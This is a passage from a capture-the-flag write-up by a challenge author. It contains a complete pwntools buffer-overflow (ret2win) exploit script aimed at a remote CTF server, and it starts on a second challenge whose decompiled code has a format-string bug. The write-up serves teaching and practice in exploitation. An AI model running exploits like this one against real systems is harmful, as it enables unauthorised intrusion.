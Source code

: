 ```c
```
This function appears to print the flag out to us if we can call it. And with control of `rip` this is possible. We'll have to write a python script with `pwntools` to send in 72 bytes of junk and then the address of `global_thermo_nuclear_war()`. The script to do so is below. Hope you enjoyed! 

```python
from pwn import *

elf = context.binary = ELF('chal');
#p = elf.process()
p = remote('gold.b01le.rs', 4004)

context.terminal = ['tmux', 'split-window', '-h']
gdb_script = '''
init-pwndbg
break *main
'''
#gdb.attach(p, gdb_script)
offset = 72
payload = flat([
    'a' * offset,
    elf.symbols['global_thermo_nuclear_war']
])

p.sendlineafter(b'FALKEN', b'Hello.')
p.sendlineafter(b'TODAY?\n', b'Pretty good')
p.sendlineafter(b'/73?\n', b'People make mistakes')

p.sendlineafter(b'GAME?\n', payload)

p.interactive()
```

# seeing-red | pwn

Inspired by one of my favorite Taylor Swift songs, seeing-red is another easy-medium pwn challenge. I wanted to combine a ret2win style challenge with a format string exploit. The goal here was not to get shell even though it seems some people did, this was not my intention. 

To start, we again distribute the challenge binary and a Dockerfile. The Dockerfile is again not needed here, just included for convenience. Let's throw the challenge in ghidra and have a look at the `main()` function. 

```c
undefined8 main(void) {
  setbuf(stdout,(char *)0x0);
  help_me();
  printf("sooo... anyways whats your favorite Taylor Swift song? ");
  fflush(stdout);
  read(0,song,200);
  printf("Ooohh! ");
  printf(song);
  puts("Thats a good one!");
  return 0;
}
```
Looks like it first calls the `help_me()` function, so lets take a look at that. 
